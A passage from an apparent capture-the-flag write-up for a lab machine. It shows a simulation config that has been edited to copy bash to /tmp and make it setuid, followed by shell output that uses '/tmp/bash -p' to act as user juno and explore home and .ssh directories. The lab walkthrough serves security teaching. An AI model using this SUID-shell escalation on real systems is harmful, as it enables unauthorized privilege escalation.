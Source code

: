 ```bash
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```

And now we have a bash file which we can execute

```bash
postgres@jupiter:/var/lib/postgresql/14/main$ ls -la /tmp/bash
-rwsr-xr-x 1 juno juno 1396520 Aug 27 20:06 /tmp/bash
postgres@jupiter:/var/lib/postgresql/14/main$ /tmp/bash -p
bash-5.1$ whoami
juno
bash-5.1$ ls /home/juno
shadow  shadow-simulation.sh  user.txt
bash-5.1$ cat /home/juno/user.txt
cat: /home/juno/user.txt: Permission denie
```

We still have no access to the user flag even we are the juno user

```bash
bash-5.1$ ls -la /home/juno
total 52
drwxr-x---  8 juno juno 4096 May  4 12:10 .
drwxr-xr-x  4 root root 4096 Mar  7 13:00 ..
lrwxrwxrwx  1 juno juno    9 Mar  7 10:45 .bash_history -> /dev/null
-rw-r--r--  1 juno juno  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 juno juno 3792 Mar  7 10:00 .bashrc
drwx------  3 juno juno 4096 May  4 18:59 .cache
drwxrwxr-x  5 juno juno 4096 Mar  7 10:02 .cargo
drwxrwxr-x  5 juno juno 4096 Mar  7 12:08 .local
-rw-r--r--  1 juno juno  828 Mar  7 10:00 .profile
drwxrwxr-x  6 juno juno 4096 Mar  7 10:01 .rustup
drwxrwxr-x 12 juno juno 4096 Mar  9 10:31 shadow
-rwxrwxr-x  1 juno juno  174 Apr 14 14:28 shadow-simulation.sh
drwx------  2 juno juno 4096 Mar  7 09:55 .ssh
-rw-r-----  1 root juno   33 Aug 28 15:19 user.txt
bash-5.1$ ls -la /home/juno/.ssh
total 12
drwx------ 2 juno juno     4096 Aug 28 15:49 .
drwxr-x--- 8 juno juno     4096 May  4 12:10 ..
-rw------- 1 juno postgres  563 Aug 28 15:47 authorized_keys
```
